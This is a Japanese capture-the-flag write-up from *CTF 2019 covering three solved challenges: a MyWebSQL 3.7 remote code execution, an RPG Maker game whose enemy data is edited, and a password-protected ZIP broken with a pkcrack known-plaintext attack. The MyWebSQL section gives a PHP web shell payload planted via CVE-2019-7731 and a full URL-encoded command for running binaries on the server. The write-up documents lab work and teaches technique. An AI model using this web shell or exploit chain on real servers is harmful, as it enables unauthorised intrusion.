




4 月 27 日から 4 月 29 日にかけて開催された [*CTF 2019](http://starctf.xctf.org.cn) に、チーム zer0pts で参加しました。最終的にチームで 2570 点を獲得し、順位は得点 334 チーム中 36 位でした。うち、私は 3 問を解いて 775 点を入れました。

他のメンバーの write-up はこちら。

- [*CTF (StarCTF) 2019 Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2019/04/29/122753)

以下、私が解いた問題の write-up です。

## Web
### mywebsql (210)
> (URL)

与えられた URL にアクセスすると、[MyWebSQL](https://github.com/Samnan/MyWebSQL) というブラウザでデータベースを操作できるツールのログイン画面が表示されました。インストールされているバージョンは `Version 3.7` と、[最新版の 3.8](https://github.com/Samnan/MyWebSQL/blob/e22cf1eef96f9a3d9d95bbb2654ebc2465a93bcf/Docs/changelog.txt#L1-L3) ではないようです。

なんとかログインできないか適当なユーザ名とパスワードを試していると、`admin` / `admin` を入力したときにログインすることができました。データベースにフラグがあるのかと思いテーブル一覧を見てみましたが、他の参加者が作成したテーブルしかありません。

MyWebSQL 3.7 になにか脆弱性がないか調べてみると、[CVE-2019-7731](https://nvd.nist.gov/vuln/detail/CVE-2019-7731) という任意のコードが実行できる脆弱性が見つかりました。公開されている [PoC](https://github.com/eddietcc/CVEnotes/blob/91168c54abc107eb71ec0fbdd3a5d9e52b012410/MyWebSQL/RCE/readme.md) を参考に、まず `TEXT` 型のカラムを持つ `neko` というテーブルを作成、`<?php system($_GET['cmd']) ?>` というレコードを追加し、`neko.php` にデータベースのバックアップを出力すると、`/backups/neko.php?cmd=ls` で OS コマンドを実行することができました。

`ls -la /` で `/readflag` という実行ファイルを経由して `/flag` を読み出せることができるとわかります。あとは `/readflag` を実行すると要求される CAPTCHA (与えられた計算式を評価した結果を返す) をなんとかすればフラグが得られます。

`/backups/neko.php?cmd=php%20-r%20%27$h=proc_open("/readflag",[["pipe","r"],["pipe","w"],["pipe","w"]],$p);%20fgets($p[1]);%20$r=fgets($p[1]);%20echo%20$r;%20fwrite($p[0],eval("return%20".$r.";")."\n");%20$r=fgets($p[1]);%20echo%20$r;%20echo%20fgets($p[1]);%20echo%20fgets($p[2]);%27` にアクセスするとフラグが得られました。

```
*CTF{h4E9PKLkr6HTO3JcRglVdYaBSA0eDU8y}
```

## Misc
### She (243)
> Enjoy the game!
> 添付ファイル: She.zip

与えられた ZIP ファイルを展開すると、`Game.exe` `RGSS103J.dll` `Game.ini` 等のファイルが出てきました。どうやら [RPG ツクール XP](https://tkool.jp/products/rpgxp/index) で作られたゲームのようです。

とりあえず `Game.exe` を実行してみると、左下の民家にいる敵を倒すとフラグが得られると言われました。



…が、この鶏は異常な強さで傷一つ与えることができません ([動画 1](https://youtu.be/erX_3DmVexo))。



敵のデータを改変できないか調べていると、[aoitaku/rxdata-transform](https://github.com/aoitaku/rxdata-transform) という `.rxdata` (ゲームの各種データが格納されている形式) と JSON の相互変換ができるツールが見つかりました。

まず `bundle exec ruby rxdata_converter.rb export She` で JSON に変換します。敵のデータが格納されている `Enemies.json` を開き、鶏の名前である `Julia` を探すと以下のデータが見つかりました。

```json
︙
    "atk":999,
    "battler_hue":220,
    "battler_name":"074-Bird04",
︙
    "exp":2,
    "gold":16,
    "id":1,
    "int":141,
    "item_id":0,
    "maxhp":9999,
    "maxsp":9999,
    "mdef":888,
    "name":"Julia",
    "pdef":999,
︙
```

体力や攻撃力が凄まじい値になっています。これらをすべて `0` に変えてしまいましょう。`bundle exec ruby rxdata_converter.rb import She` で `.rxdata` 形式に変換し、`Enemies.rxdata` を差し替えると、何も育成をしていない初期状態でも楽に倒すことができるようになりました ([動画 2](https://youtu.be/9-lh8lEbRZ0))。

ドアの先には鉄格子と宝箱のある部屋がありました。



鉄格子は正しい順番で調べることで開き、その先にある宝箱を調べることでフラグの一部が手に入れられるようです。

ここで [ptr-yudai](https://twitter.com/ptrYudai) さんによって `Game.exe debug` のようにコマンドライン引数を与えることでデバッグモードに入れることがわかりました。また、宝箱の中には数字が 1 文字ずつ入っており、左から `213465978` の順で並んでいることがわかりました。

総当たりをしていくと、`371269` の順番 (3 と 7 は入れ替えても OK) で調べることでさらに次の部屋に進めることができました。



次の部屋に配置されている鏡を調べると、以下のようなメッセージが表示されました。

> Combine those numbers you found in the chest 
> and submit it with MD5 encrypt!

[ptr-yudai](https://twitter.com/ptrYudai) さんが `d6f3fdffbcb462607878af65d059f274` (`213697`) を試すと通りました。

```
*CTF{d6f3fdffbcb462607878af65d059f274}
```

### otaku (322)
> One day, you and your otaku friend went to the comic expo together and he had a car accident right beside you. Before he died, he gave you a USB hard disk which contained this zip. Please find out his last wish.
> 添付ファイル: 82598457d27f4149a96e2cc38f49c873.zip

与えられたファイルを `binwalk -e 82598457d27f4149a96e2cc38f49c873.zip` で展開すると、`Anime_Intro.doc` と `flag.zip` という 2 つのファイルが出てきました。

`flag.zip` は `flag.png` と `last words.txt` を含む ZIP ファイルですが、どうやらパスワードがかかっているようです。また、以下のようなコメントが GBK で埋め込まれていることが [ptr-yudai](https://twitter.com/ptrYudai) さんによってわかっていました。

> 压缩软件：winrar版本 5.70 beta 2
> 配置：zip压缩文件（低压缩率）
> 压缩方式：标准

Winrar 5.70 で圧縮されたようです。

`Anime_Intro.doc` は一見普通の Word のドキュメントファイルですが、[ptr-yudai](https://twitter.com/ptrYudai) さんによって以下のようなテキストが埋め込まれている (`<w:vanish>` で非表示にされている) ことがわかっていました。

> Hello everyone, I am Gilbert. Everyone thought that I was killed, but actually I survived. Now that I have no cash with me and I’m trapped in another country. I can't contact Violet now. She must be desperate to see me and I don't want her to cry for me. I need to pay 300 for the train, and 88 for the meal. Cash or battlenet point are both accepted. I don't play the Hearthstone, and I don't even know what is Rastakhan's Rumble.

これを GBK で保存し、Winrar 5.70 で圧縮します。pkcrack で既知平文攻撃を試してみると、`flag.zip` のパスワードが `My_waifu` であると分かりました。

```
$ pkcrack -C ./flag.zip -c "last words.txt" -p last_words_gbk.txt -P ./last_words_gbk.zip
Files read. Starting stage 1 on Sun Apr 28 22:02:41 2019
Generating 1st generation of possible key2_283 values...done.
Found 4194304 possible key2-values.
Now we're trying to reduce these...
Done. Left with 29381 possible Values. bestOffset is 24.
Stage 1 completed. Starting stage 2 on Sun Apr 28 22:03:16 2019
Ta-daaaaa! key0=106d3a93, key1=6c0cc013, key2=338e8d6f
︙
Stage 2 completed. Starting password search on Sun Apr 28 22:32:50 2019
Key: 4d 79 5f 77 61 69 66 75
Or as a string: 'My_waifu' (without the enclosing single quotes)
Key: 4d 79 5f 77 61 69 66 75
Or as a string: 'My_waifu' (without the enclosing single quotes)
Finished on Sun Apr 28 22:32:50 2019
```

`flag.zip` を展開して出てきた `flag.png` の RGB の LSB をとるとフラグが得られました。

```
*ctf{vI0l3t_Ev3rg@RdeN}
```